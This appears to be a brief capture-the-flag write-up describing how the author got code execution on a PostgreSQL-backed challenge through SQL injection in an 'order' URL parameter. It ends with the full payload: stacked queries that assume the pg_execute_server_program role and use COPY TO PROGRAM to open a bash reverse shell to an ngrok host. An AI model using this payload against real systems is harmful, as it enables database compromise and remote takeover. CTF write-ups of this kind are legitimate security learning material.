


I guess everyone can easily do the v1, and just lacked a little luck for v2, yall know its only have pg_execute_server_program, i tested multiple time with https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-postgresql.html?highlight=pentest%20postgre#rce with still no luck, after ~1 hour, i got the flag:

Aight, but i still can’t manage a sleep tho, but somehow its a bit longer that when i tried to make a rev shell and BOOM, it worked! Here is the final payload:

`http://52.59.124.14:5021/?order=1%3BSET%20ROLE%20pg_execute_server_program%3BCOPY%20(SELECT%20'')%20TO%20PROGRAM%20'bash%20-c%20"exec%20bash%20-i%20>%26%20/dev/tcp/0.tcp.ap.ngrok.io/12365%200>%261"'%3BSELECT%20'shell'%2C1%2C1%3B--`

